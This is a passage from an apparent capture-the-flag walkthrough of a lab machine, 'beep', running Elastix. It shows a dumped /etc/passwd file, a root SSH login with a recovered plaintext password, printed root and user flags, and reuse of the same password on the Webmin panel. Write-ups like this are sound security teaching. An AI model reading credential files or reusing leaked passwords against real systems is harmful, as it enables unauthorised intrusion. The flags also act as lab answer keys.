 ```
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```
We see two interesting users, `fanis` and `root`, and did not see the `admin` user which we tried to SSH with.

Let's SSH into root with the credentials we found.
```
hippoeug@kali:~$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# ls
anaconda-ks.cfg  elastix-pr-2.2-1.i386.rpm  install.log  install.log.syslog  postnochroot  root.txt  webmin-1.570-1.noarch.rpm
[root@beep ~]# cat root.txt
89dfb87953f6ecfb95897002221d0311
...
[root@beep home]# cd fanis
...
[root@beep fanis]# cat user.txt
798c7c7c1711198d3120ec639be0a321
```

Interestingly, we were also able to log into https://10.10.10.7:10000/ with the same credentials, `root` and `jEhdIekWmdjE`.
